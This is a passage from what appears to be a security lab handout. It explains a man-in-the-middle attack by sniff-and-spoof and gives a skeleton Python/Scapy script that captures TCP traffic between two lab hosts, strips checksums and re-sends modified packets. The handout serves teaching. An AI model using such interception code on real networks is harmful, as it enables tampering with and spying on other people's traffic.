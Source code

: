 \paragraph{MITM code.}
Once the IP forwarding is disabled, our program needs to take over
the role of packet forwarding from the victim to the target, of course
after making changes to the packets. Since the packet's destination 
is not for us, the kernel will not give the packet to us; it will simply
drops the packet. However, if our program is a sniffer program,
we will get the packet from the kernel. Therefore, we will use 
the sniff-and-spoof technique to implement this MITM attack.


To help students get started, we provide a skeleton sniff-and-spoof
program in the following. The program capture all the TCP packets, and
then for packets from A to B, it makes some changes (the modification
part is not included, because that is part of the task). 
If you did the ARP Attack lab before doing this one, the code for the MITM
attack is very similar.


\begin{lstlisting}
#!/usr/bin/env python3
from scapy.all import *

IP_A = "10.9.0.5"
MAC_A = "02:42:0a:09:00:05"
IP_B = "10.9.0.6"
MAC_B = "02:42:0a:09:00:06"

def spoof_pkt(pkt):
    if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
         # Create a new packet based on the captured one.
         # 1) We need to delete the checksum in the IP & TCP headers,
         #    because our modification will make them invalid.
         #    Scapy will recalculate them if these fields are missing.
         # 2) We also delete the original TCP payload.

         newpkt = IP(pkt[IP])
         del(newpkt.chksum)
         del(newpkt[TCP].payload)
         del(newpkt[TCP].chksum)


         #################################################################
         # Construct the new payload based on the old payload.
         # Students need to implement this part.

         if pkt[TCP].payload:
             data = pkt[TCP].payload.load  # The original payload data
             newdata = data   # No change is nade in this sample code

             send(newpkt/newdata)
         else:
             send(newpkt)
         ################################################################

f = 'tcp'
pkt = sniff(iface='eth0', filter=f, prn=spoof_pkt)
\end{lstlisting}


